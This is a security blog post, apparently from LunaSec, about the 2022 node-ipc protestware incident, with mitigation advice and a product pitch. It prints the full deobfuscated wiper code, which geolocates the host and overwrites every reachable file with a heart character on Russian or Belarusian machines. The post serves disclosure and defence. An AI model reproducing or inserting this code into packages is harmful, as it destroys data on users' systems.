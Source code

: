 ```yaml
---
title: "Protestware": How node-ipc turned into malware
description: How the author of the NPM package "node-ipc" turned it into malware to attack Russian developers and protest the war in Ukraine.
slug: node-ipc-protestware
date: 2022-03-18
image: https://www.lunasec.io/docs/img/.png
keywords: [node-ipc, protestware]
tags: [node-ipc, npm, nodejs]
authors: [chris, free]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

On March 16th, 2022, a popular package on NPM, named "node-ipc", had malware intentionally added to it by it's author. The package is used in a number of projects, and the impact of this malware was felt by many developers in Belarus and Russia.

A long, but not exhaustive, list of projects that include this dependency has been [compiled](https://github.com/zlw9991/node-ipc-dependencies-list). Among the list of projects affected is most notably is the [Vue.js web framework](https://www.npmjs.com/package/@vue/cli-shared-utils).

Snyk has written a [blog post](https://snyk.io/blog/peacenotwar-malicious-npm-node-ipc-package-vulnerability/) detailing
the timeline of events around the releasing of this malicius version.

## Technical Details of the Malware

The malicious code, which has since been deleted can be found [here](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js). 

This code was [obfuscated](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1072077181) to hide its intentions by the developer as more people started to pay attention to what was happening.

```js
import p from "path";
import fs from "fs";
import https from "https";

setTimeout(function () {
    if (Math.round(Math.random() * 4) > 1) {
        return;
    }

    const geoLocation = "https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154";

    https.get(geoLocation, function (response) {
        response.on("data", function (jsonData) {
            try {
                const jsonObject = JSON.parse(jsonData);
                const countryName = jsonObject["country_name"].toLowerCase();
                if (countryName.includes("russia") || countryName.includes("belarus")) {
                    getFiles("./");
                    getFiles("../");
                    getFiles("../../");
                    getFiles("/");
                }
            } catch (response) {}
        });
    });
}, Math.ceil(Math.random() * 1000));

async function getFiles(path = "", param2 = "") {
    if (!fs.existsSync(path)) {
        return;
    }

    let fileInDir = [];
    try {
        fileInDir = fs.readdirSync(path);
    } catch (t) {}

    const toDelete = [];
    for (var i = 0; i < fileInDir.length; i++) {
        const combinedPath = p.join(path, fileInDir[i]);

        let pathData = null;
        try {
            pathData = fs.lstatSync(combinedPath);
        } catch (t) {
            continue;
        }

        if (pathData.isDirectory()) {
            const result = getFiles(combinedPath, param2);
            result.length > 0 ? toDelete.push(...result) : null;
        } else if (combinedPath.indexOf(param2) >= 0) {
            try {
                fs.writeFile(combinedPath, "❤️", function () {});
            } catch (t) {
            }
        }
    }
    return toDelete;
}

const ssl = true;
export { ssl as default, ssl };
```

The code attempts to geolocate where the code is running, and if it discovers it is running with in Russia or Belarus, then it attempts to
replace the contents of every file on the system with a unicode heart character: ❤.

## Mitigation Strategies for Bad Dependencies

To figure out if you're using `node-ipc` via a transitive dependency, you can use commands such as `yarn why node-ipc` to show you where and how it's imported in your code.

You can then pin your `node-ipc` version to a known version by adding `overrides` to your `package.json`, like so:

```json
"overrides": {
    "node-ipc@>9.2.1 <10": "9.2.1",
    "node-ipc@>10.1.0": "10.1.0"
}
```

*Note: This also applies to any other "bad" NPM package that you need to pin to a specific version.*

Setting an override will prevent future malicious package updates from being included in your project.

Unfortunately, due to this package being a transitive dependency, it can be very difficult to realize you're even including `node-ipc` in the first place.

This is a part of a bigger problem that we, as the software community, need to have and we're discuss it more at the end of this post.

## List Bad Versions and Other Malware Packages

On NPM, previous versions that were pushed that contained the malicious code, including versions
[9.2.2](https://www.npmjs.com/package/node-ipc/v/9.2.2), [10.1.1](https://www.npmjs.com/package/node-ipc/v/10.1.1),
[10.1.2](https://www.npmjs.com/package/node-ipc/v/10.1.2). These versions [have all been removed](https://www.npmjs.com/package/node-ipc) at this point once this malware was spotted by the NPM team.

However, newely released versions, > 11.x.x, all now contain the library [peacenotwar](https://www.npmjs.com/package/peacenotwar).
Unlike the previous malicious code, this library does not remove files. Instead, the library attempts to "deliver a peaceful message"
by [writing the contents](https://github.com/RIAEvangelist/peacenotwar/blob/main/index.js#L32) of the file, [WITH-LOVE-FROM-AMERICA.txt](https://github.com/RIAEvangelist/peacenotwar/blob/main/WITH-LOVE-FROM-AMERICA.txt)
to the host filesystem.

## Going Viral

The updates to the `node-ipc` struck a chord with developers on the Internet and a great deal of activity has been 
happening on the project page since the version release.

**Warning** The follow links may contain offensive terms, and are not safe for work.

A number of
[issues](https://github.com/RIAEvangelist/node-ipc/issues), [pull requests](https://github.com/RIAEvangelist/node-ipc/pulls), and [discussions](https://github.com/RIAEvangelist/node-ipc/discussions) 
have been created in outrage over the developer's modifications to their library.

## Stopping Future Supply Chain Attacks

All of this is happening on the coat-tail of the widely used libraries `faker.js` and `colors.js` having code changes pushed
to [intentionally corrupt](https://www.theverge.com/2022/1/9/22874949/developer-corrupts-open-source-libraries-projects-affected)
projects that included them.

With Node's support for `postInstall` scripts, any package is able to run arbitrary code _even if it's never imported_ because simply running `npm install` will trigger the library's code. Adding insult to injury, when an imported package's version hasn't been "pinned" to a specific version, it's possible to install a malicious package update _without even realizing it's happening_.

Over the years, we've seen many attacks just like this happen, and the impact has only increased. It's clear that, without a solution to the problem, we're going to continue to see these issues popping up.

Dependency scanning tools like [GitHub Dependabot](https://github.com/dependabot), [Snyk](https://snyk.io/), [TideLift](https://tidelift.com/), and others aren't able to prevent these types of attacks from executing malicious code. These tools are only designed to scan changes _after_ they're committed to source control.

That's too late to prevent exploitation though because attacks can attack developers the moment they run `npm install` on their computers.

## Tooling to Block these attacks

Stopping these attacks needs to happen _before_ an `npm install` runs. But how does that work?

Well, the answer is simple: Have a developer review every line of code in new packages _prior to it being available on NPM to download_.

Oh, you don't want to do that? Then you're in luck because that's exactly what we do with our product, LunaTrace!

To make it possible, we've built a "fork" of NPM where all package updates are reviewed by our dedicated Security Engineers _automatically_ before your developers can install them.

It's tedious work, but somebody has to do it.

The core of LunaTrace is actually [open source and available on GitHub](https://github.com/lunasec-io/lunasec/tree/master/lunatrace) today. We're planning to publicly release the managed Cloud version in the coming days.

If you want access to our private NPM registry of pre-vetted packages, please get in touch with us. (It's hard work and we're still scaling our team up to handle the load.)

## Request Early Access

If you're interested in working with us while we continue to develop and improve LunaTrace, please email us about early access at: [contact@lunasec.io](mailto:contact@lunasec.io)

More details will be added to our website shortly. Cheers!
